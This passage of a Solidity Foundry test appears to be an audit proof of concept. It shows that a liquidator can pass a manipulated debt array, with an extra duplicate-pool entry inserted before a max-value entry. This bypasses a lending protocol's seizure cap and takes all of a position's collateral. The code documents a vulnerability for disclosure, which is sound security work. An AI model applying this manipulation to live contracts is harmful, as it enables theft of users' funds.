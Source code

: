 ```solidity
    vm.expectRevert(abi.encodeWithSelector(RiskModule.RiskModule_LiquidateHealthyPosition.selector, position));
    positionManager.liquidate(position, debts_withoutManipulation, assets);
    vm.stopPrank();

    // Modify asset2 price from 1 eth to 0.9 eth
    FixedPriceOracle pointNineEthOracle = new FixedPriceOracle(0.9e18);
    vm.prank(protocolOwner);
    riskEngine.setOracle(address(asset2), address(pointNineEthOracle));
    assertFalse(riskEngine.isPositionHealthy(position));

    // Calculate the maxSeizedAssetValue
    (totalAssetValue, totalDebtValue, ) = riskEngine.getRiskData(position);
    uint256 maxSeizedAssetValue;
    {
        uint256 debtRepaidValue = totalDebtValue;
        uint256 discount = riskEngine.riskModule().LIQUIDATION_DISCOUNT();

        // Max asset value that can be seized by the liquidator (see the formula below in the RiskModule::_validateSeizedAssetValue())
        maxSeizedAssetValue = debtRepaidValue.mulDiv(1e18, (1e18 - discount));
    }

    // Liquidate with expected revert: "RiskModule_SeizedTooMuch"
    vm.startPrank(liquidator);
    asset1.approve(address(positionManager), 1e18);
    vm.expectRevert(abi.encodeWithSelector(RiskModule.RiskModule_SeizedTooMuch.selector, totalAssetValue, maxSeizedAssetValue));
    positionManager.liquidate(position, debts_withoutManipulation, assets);
    vm.stopPrank();

    assertGt(totalAssetValue, maxSeizedAssetValue); // totalAssetValue > maxSeizedAssetValue

    // Construct liquidator data #2 (with input manipulation)
    DebtData memory debtData_withManipulation1 = DebtData({ poolId: fixedRatePool, amt: 0.99e18 }); // Extra DebtData inserted!!
    DebtData memory debtData_withManipulation2 = DebtData({ poolId: fixedRatePool, amt: type(uint256).max }); // 1e18
    DebtData[] memory debts_withManipulation = new DebtData[](2);
    debts_withManipulation[0] = debtData_withManipulation1; // Extra DebtData inserted!!
    debts_withManipulation[1] = debtData_withManipulation2; // 1e18

    // Pre-liquidating assertions
    assertEq(asset2.balanceOf(position), 1e18);
    assertEq(asset3.balanceOf(position), 1e18);

    assertEq(asset2.balanceOf(liquidator), 0);
    assertEq(asset3.balanceOf(liquidator), 0);

    (uint256 currentTotalAssetValue, , ) = riskEngine.getRiskData(position);
    assertEq(currentTotalAssetValue, totalAssetValue); // The totalAssetValue remains unchanged

    // Liquidate successfully with extra profit (seize all position's collateral assets)
    vm.startPrank(liquidator);
    positionManager.liquidate(position, debts_withManipulation, assets);
    vm.stopPrank();

    // Post-liquidating assertions
    assertEq(asset2.balanceOf(position), 0); // Seized all position's collateral (asset2)
    assertEq(asset3.balanceOf(position), 0); // Seized all position's collateral (asset3)

    assertGt(totalAssetValue, maxSeizedAssetValue); // totalAssetValue > maxSeizedAssetValue
    assertEq(asset2.balanceOf(liquidator), 1e18); // Seized all position's collateral (asset2)
```